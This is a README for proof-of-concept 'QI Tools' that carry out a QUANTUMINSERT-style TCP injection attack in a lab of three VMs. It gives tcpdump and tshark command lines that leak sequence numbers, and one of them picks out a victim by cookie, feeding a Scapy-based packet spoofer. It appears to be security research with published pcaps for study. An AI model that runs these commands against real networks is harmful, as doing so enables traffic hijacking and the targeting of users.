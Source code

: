QI Tools
=========

Proof of concept tools to perform a `QUANTUMINSERT`. Our Lab setup consisted of the following VMs:

 * qi-shooter (VM that will run shooter.py)
 * qi-router (VM that will run monitor.py)
 * qi-target (VM that will be attacked)
 
Pcaps created with the help of these tools can be found here:

 * [https://github.com/fox-it/quantuminsert/tree/master/pcaps](https://github.com/fox-it/quantuminsert/tree/master/pcaps)

monitor.py
----------

This script is intended to leak the TCP sequence and ACK numbers to the `shooter.py`. It has a dependency on `tcpdump` or `tshark` as it receives the sequence and ack numbers from the output of these programs.
It's possible to implement packet capture in `monitor.py` itself, making it probably even faster to leak the required information.

The information is sent to the shooter using a single UDP packet. However, one could use other ways to do this.

#### Example usage for tcpdump

	stdbuf --output=0 |	tcpdump -nn -i eth0 "host jsonip.com and tcp[tcpflags]=(tcp-syn|tcp-ack)" | python monitor.py -s 10.0.0.2
	
`stdbuf` is needed as `tcpdump` will buffer it's output by default. The bpf filter is so output only the the SYN+ACK of `jsonip.com`, which will be outputted and parsed by `monitor.py`. The shooter is then notified on `10.0.0.2`.

#### Example usage for tshark

By using `tshark` one could specifically target a client, for example by identifying a client by it's unique Cookie headers.

Example command:

	stdbuf --output=0 tshark -ni eth0 -Tfields \
		-e tcp.seq -e tcp.ack \
		-e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport \
		-e tcp.analysis.bytes_in_flight -e http.host -e 'http.cookie' \
		-o tcp.relative_sequence_numbers:0 -R http.request \
		'host jsonip.com and port 80' | python monitor.py -s 10.0.0.2 --tshark
		
This command will output the required fields when one makes a HTTP request to `jsonip.com`. The outputted cookie and host field could be used as selectors in the monitor script.

`-o tcp.relative_sequence_numbers:0` is need to get absolute sequence numbers.

shooter.py
----------
This script is responsible for receiving the sequence+ack data from `monitor.py` using UDP. It has a dependency on `Scapy` for crafting and sending the spoofed packet.

Example usage:

	python shooter.py -l 10.0.0.2 -p 12345
	
This will make the shooter script listen on `10.0.0.2` and on port `12345`.

